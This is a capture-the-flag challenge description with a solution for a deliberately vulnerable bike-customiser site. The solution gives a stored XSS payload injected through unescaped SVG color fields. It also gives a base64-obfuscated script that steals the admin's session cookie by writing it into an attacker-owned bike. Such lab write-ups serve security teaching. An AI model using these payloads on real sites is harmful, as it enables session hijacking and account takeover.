 # PimpMyBicycle - hard

Your friend just had an idea: allow everyone to create the bike of their dream !
He asks you to verify if his website is secure, since you're the best pentester he knows.

**Find a way to access the admin page**

*note: admin doesn't have access to the internet ! He is behind a very restrictive firewall, and he can only be on his own website*

FLAG: PWNME{[A-Za-z0-9_]}


# Install

`docker-compose up -d`

- will start http application on port 80
<!-- - bot is on 3000 (only used by main app, do not expose bot on internet) -->

# Exploit (Solution)

- In order to view admin page, we need to find an xss.
- Then, we'll need to find a way to leak the page or the cookie, without accessing an exterior website, since the admin can't access exterior.

## Interesting routes

```
Edit a bike:
POST
/?page=preview&action=editBike&id=10
data=[{"id":"roue1","slot":0,"colors":["#00ff00","#00ff00"]},{"id":"roue0","slot":1,"colors":["#00ff00","#00ff00"]},{"id":"guidon1","slot":2,"colors":["#00ff00"]},{"id":"selle0","slot":3,"colors":["#00ff00"]},{"id":"cadre2","slot":4,"colors":["#00ff00"]}]
```


note: if we try to edit a bike that doesn't belong to us, this error is shown:

`This bike doesn't belong to you ! You can edit other bikes only if you're admin.`

We can play with the data parameter, to find an xss.

The colors aren't parsed, and display directly in svg. We can trigger an xss from this:

```
Payload
POST
/?page=preview&action=editBike&id=10
data=[{"id":"roue1","slot":0,"colors":["\"><script>alert(0)</script>","#00ff00"]},{"id":"roue0","slot":1,"colors":["#00ff00","#00ff00"]},{"id":"guidon1","slot":2,"colors":["#00ff00"]},{"id":"selle0","slot":3,"colors":["#00ff00"]},{"id":"cadre2","slot":4,"colors":["#00ff00"]}]
```

XSS is trigger on preview page.

Now that we have an xss, we need to find a way to leak the session cookie to admin.

Admin can't access any website, so we can't send the cookie on an interceptor.

But, like we've previously seen, an admin can edit any bike.

To get the cookie, we can force the admin to edit our bike, and set his cookie in a color field.

```
Payload to execute on admin (we can use jquery, since it's on the preview page)
$.post('/?page=preview&id=9&action=editBike', {data:'[{"id":"roue1","slot":0,"colors":["'+document.cookie+'","#ff0000"]},{"id":"roue0","slot":1,"colors":["#ff0000","#ff0000"]},{"id":"guidon1","slot":2,"colors":["#ff0000"]},{"id":"selle0","slot":3,"colors":["#ff0000"]},{"id":"cadre2","slot":4,"colors":["#ff0000"]}]'})
```

To execute this payload, we're going to need to convert it in base64 first, then put it in our XSS previously found:

```
Payload encoded:

<script>eval(atob('JC5wb3N0KCcvP3BhZ2U9cHJldmlldyZpZD0xMCZhY3Rpb249ZWRpdEJpa2UnLCB7ZGF0YTonW3siaWQiOiJyb3VlMSIsInNsb3QiOjAsImNvbG9ycyI6WyInK2RvY3VtZW50LmNvb2tpZSsnIiwiI2ZmMDAwMCJdfSx7ImlkIjoicm91ZTAiLCJzbG90IjoxLCJjb2xvcnMiOlsiI2ZmMDAwMCIsIiNmZjAwMDAiXX0seyJpZCI6Imd1aWRvbjEiLCJzbG90IjoyLCJjb2xvcnMiOlsiI2ZmMDAwMCJdfSx7ImlkIjoic2VsbGUwIiwic2xvdCI6MywiY29sb3JzIjpbIiNmZjAwMDAiXX0seyJpZCI6ImNhZHJlMiIsInNsb3QiOjQsImNvbG9ycyI6WyIjZmYwMDAwIl19XSd9KQ=='))</script>

```

```
Final payload
POST
/?page=preview&id=9&action=editBike
data=[{"id":"roue1","slot":0,"colors":["\"><script>eval(atob('JC5wb3N0KCcvP3BhZ2U9cHJldmlldyZpZD0xMCZhY3Rpb249ZWRpdEJpa2UnLCB7ZGF0YTonW3siaWQiOiJyb3VlMSIsInNsb3QiOjAsImNvbG9ycyI6WyInK2RvY3VtZW50LmNvb2tpZSsnIiwiI2ZmMDAwMCJdfSx7ImlkIjoicm91ZTAiLCJzbG90IjoxLCJjb2xvcnMiOlsiI2ZmMDAwMCIsIiNmZjAwMDAiXX0seyJpZCI6Imd1aWRvbjEiLCJzbG90IjoyLCJjb2xvcnMiOlsiI2ZmMDAwMCJdfSx7ImlkIjoic2VsbGUwIiwic2xvdCI6MywiY29sb3JzIjpbIiNmZjAwMDAiXX0seyJpZCI6ImNhZHJlMiIsInNsb3QiOjQsImNvbG9ycyI6WyIjZmYwMDAwIl19XSd9KQ'))</script>","#00ff00"]},{"id":"roue0","slot":1,"colors":["#00ff00","#00ff00"]},{"id":"guidon1","slot":2,"colors":["#00ff00"]},{"id":"selle0","slot":3,"colors":["#00ff00"]},{"id":"cadre2","slot":4,"colors":["#00ff00"]}]
```

Do not preview the bike yourself, because it will trigger the payload, and set your own cookie in color slot !

Send it to review with:

```
POST
/?page=sendBike
id=10
```

Wait few second for the review confirmation messsage.

Then, you can go to the preview page, and retreive the cookie in the color slot !

or go to `/?page=preview&id=10&action=getBike` to get the JSON bike directly


Set session cookie, and go to /?page=admin page to get the flag
